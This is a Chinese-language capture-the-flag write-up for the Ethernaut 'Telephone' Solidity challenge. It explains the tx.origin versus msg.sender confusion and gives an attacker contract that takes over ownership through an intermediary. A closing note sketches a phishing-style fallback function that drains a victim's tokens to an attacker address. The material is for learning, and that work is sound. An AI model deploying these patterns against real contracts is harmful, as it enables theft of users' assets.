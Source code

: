 title: 4. Telephone
date: 2022-10-11 15:32:08
updated: 2022-10-11 15:32:08
tags:
- ethernaut
categories: Web3
---

**Chain**: Goerli
**Difficulty**: ●○○○○
**Level**: https://ethernaut.openzeppelin.com/level/0x466BDd41a04473A01031C9D80f61A9487C7ef488

### 通关要求

创建当前关卡合约实例后，调用 `await contract.owner()` 发现 owner 并不是当前钱包地址。那通过要求就是将 `owner` 变更为当前钱包。

### 分析合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

在 `constructor` 构造函数中可以看出，owner 是通过 `msg.sender` 进行初始化。

在 `changeOwner` 函数中只有 `tx.origin` 和 `msg.sender` 不相等时，才将 `owner` 赋值。

至此，引出两个不同的变量 `tx.origin` 和 `msg.sender` ：

`tx.origin`： 指调用智能合约功能的账户地址，只有账户地址可以是 `tx.origin`

`msg.sender` ：指直接调用智能合约功能的帐户或智能合约的地址。

当以智能合约调用智能合约时，`msg.sender` 在被调用的智能合约中，会是调用者智能合约的地址，而 `tx.origin` 则是最初调用智能合约的个人钱包地址。

所以，在创建当前关卡合约实例时，是通过关卡合约进行创建，当部署 `Telephone` 这个合约时，`msg.sender` 的值为当前关卡合约地址，而不是当前钱包地址。

### 解题实现

1. 首先打开Console，获取当前关卡合约实例地址 `instance`；
2. 打开 [Remix IDE](https://remix.ethereum.org/)，创建文件 `Telephone.sol`，粘贴以下代码：
   
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;
    
    interface ITelephone {
        function changeOwner(address _owner) external;
    }
    
    contract Telephone {
        address levelInstance;
        
        constructor(address _levelInstance) {
            levelInstance = _levelInstance;
        }
    
        function changeOwner() public {
            ITelephone(levelInstance).changeOwner(msg.sender);
        }
    }
    ```
    
3. 在constructor 填入当前关卡合约实例地址后部署。
4. 再调用 `changeOwner` 函数，完成关卡。

### 后记

这个例子比较简单, 混淆 `tx.origin` 和 `msg.sender` 会导致 phishing-style 攻击, 比如[this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

下面描述了一个可能的攻击.

1. 使用 `tx.origin` 来决定转移谁的token, 比如.
   
    ```
    function transfer(address _to, uint _value) {
      tokens[tx.origin] -= _value;
      tokens[_to] += _value;
    }
    ```
    
2. 攻击者通过调用合约的 transfer 函数是受害者向恶意合约转移资产, 比如
   
    ```
    function () payable {
      token.transfer(attackerAddress, 10000);
    }
    ```
    
3. 在这个情况下, `tx.origin` 是受害者的地址 ( `msg.sender` 是恶意协议的地址), 这会导致受害者的资产被转移到攻击者的手上.